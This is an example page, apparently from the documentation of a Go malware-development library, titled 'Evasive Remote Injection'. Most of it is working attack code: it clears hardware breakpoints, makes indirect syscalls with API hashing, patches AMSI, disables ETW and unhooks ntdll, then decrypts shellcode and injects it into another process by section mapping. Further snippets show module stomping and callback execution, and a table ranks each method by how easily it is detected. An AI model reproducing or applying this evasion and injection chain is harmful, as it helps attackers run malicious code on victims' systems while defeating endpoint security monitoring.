

# Example: Evasive Remote Injection

[← Back to README](../../README.md)

Inject shellcode into a remote process using multiple OPSEC layers.



## Code: Section Mapping with Full Evasion Chain

```go
package main

import (
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/amsi"
    "github.com/oioio-space/maldev/evasion/etw"
    "github.com/oioio-space/maldev/recon/hwbp"
    "github.com/oioio-space/maldev/evasion/unhook"
    "github.com/oioio-space/maldev/inject"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

var encPayload = []byte{/* ... */}
var key = []byte{/* 32-byte key */}

func main() {
    // 1. Clear hardware breakpoints (defeats CrowdStrike-style DR monitoring)
    hwbp.ClearAll()

    // 2. Create indirect syscall Caller with API hashing (zero strings)
    caller := wsyscall.New(wsyscall.MethodIndirect,
        wsyscall.Chain(wsyscall.NewHashGate(), wsyscall.NewHellsGate()))

    // 3. Apply evasion chain
    evasion.ApplyAll([]evasion.Technique{
        amsi.ScanBufferPatch(),
        etw.All(),
        unhook.Full(),
    }, caller)

    // 4. Decrypt
    shellcode, _ := crypto.DecryptChaCha20(key, encPayload)

    // 5. Inject via section mapping (no WriteProcessMemory)
    targetPID := 1234 // e.g., found via process/enum
    inject.SectionMapInject(targetPID, shellcode, caller)
}
```

## Alternative: Module Stomping (File-Backed Memory)

```go
// Shellcode lives in a legitimate DLL's .text section
// Memory scanners see file-backed image, not suspicious allocation
addr, _ := inject.ModuleStomp("msftedit.dll", shellcode)
```

## Alternative: Callback Execution (Zero Thread Creation)

```go
// Execute via EnumWindows callback — no CreateThread, no APC
// Runs on the current thread, invisible to thread-creation monitoring
inject.ExecuteCallback(addr, inject.CallbackEnumWindows)
```

## Technique Comparison

| Technique | WriteProcessMemory | New Thread | File-Backed | Detection Level |
|-----------|:-:|:-:|:-:|:-:|
| CreateRemoteThread | Yes | Yes | No | High |
| Section Mapping | **No** | Yes | No | Medium |
| Module Stomping | Yes | No (self) | **Yes** | Low |
| Callback Execution | No (self) | **No** | No | Low |
| Thread Pool | No (self) | **No** | No | Low |
| Phantom DLL | Yes | Yes | **Yes** | Medium |
